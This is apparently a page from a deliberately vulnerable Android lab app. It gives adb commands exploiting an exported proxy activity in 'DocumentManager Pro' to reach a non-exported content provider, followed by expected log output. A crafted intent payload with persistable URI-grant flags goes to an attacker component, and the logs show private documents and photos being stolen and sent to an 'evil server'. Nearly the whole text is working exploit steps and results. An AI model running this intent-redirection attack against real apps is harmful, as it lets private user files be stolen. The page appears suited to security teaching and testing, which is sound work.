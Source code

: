 ```bash
# Install the vulnerable DocumentManager Pro app with proxy activity
adb install -r DocumentManager-Pro.apk

# Launch DocumentManager Pro to initialize sensitive data
adb shell am start -n com.documentmanager/.MainActivity

# Test direct access to non-exported provider (should fail)
adb shell content query --uri content://com.documentmanager.secure/documents

# Test proxy activity exploitation via ADB
adb shell am start \
  -n com.documentmanager/.ProxyActivity \
  -e extra_intent "intent:#Intent;component=com.attacker/.UriReceiver;scheme=content;host=com.documentmanager.secure;i.flags=0x00000043;end"

# Monitor for URI permission grants and data theft in logs
adb logcat -s URI_GRANTED:D STOLEN_DOCUMENT:D STOLEN_PHOTO:D DATA_EXFILTRATED:D PHOTO_EXFILTRATED:D

# Verify proxy activity is exported and accessible
adb shell dumpsys package com.documentmanager | grep -A 5 "ProxyActivity"

# Check content provider configuration
adb shell dumpsys package com.documentmanager | grep -A 10 "SecureContentProvider"

# Verify sensitive files exist in app directory
adb shell "run-as com.documentmanager ls -la /data/data/com.documentmanager/files/secure/"

# View actual sensitive document data
adb shell "run-as com.documentmanager cat /data/data/com.documentmanager/files/secure/confidential_report.pdf"
```

**Expected Results:**
```
Direct Provider Access (Blocked):
Error: SecurityException: Permission denial: opening provider com.documentmanager.SecureContentProvider 
from ProcessRecord{abc123 12345:com.android.shell/2000} (pid=12345, uid=2000) 
that is not exported from UID 10123

Proxy Activity Exploitation (Success):
URI_GRANTED: Received URI permissions: content://com.documentmanager.secure/
STOLEN_DOCUMENT: File: confidential_report.pdf, Content: base64encodeddata...
STOLEN_DOCUMENT: File: financial_data.xlsx, Content: spreadsheetdata...
STOLEN_PHOTO: Photo: private_photo1.jpg
PHOTO_STOLEN: Photo data size: 524288 bytes
DATA_EXFILTRATED: Sending confidential_report.pdf to evil server
PHOTO_EXFILTRATED: Uploading private_photo1.jpg (524288 bytes) to evil server

Security Analysis:
ProxyActivity: exported=true (VULNERABLE)
SecureContentProvider: exported=false, grantUriPermissions=true (VULNERABLE COMBINATION)

Exploit Test Output:
[+] Direct provider access blocked (expected)
[+] Proxy activity accessible and processing embedded intents
[+] URI permission grant successful via proxy pattern
[!] VULNERABILITY CONFIRMED: Non-exported provider accessible via URI grants
[+] Sensitive data extracted: documents, photos, financial data
[+] Persistent access maintained via FLAG_GRANT_PERSISTABLE_URI_PERMISSION
```
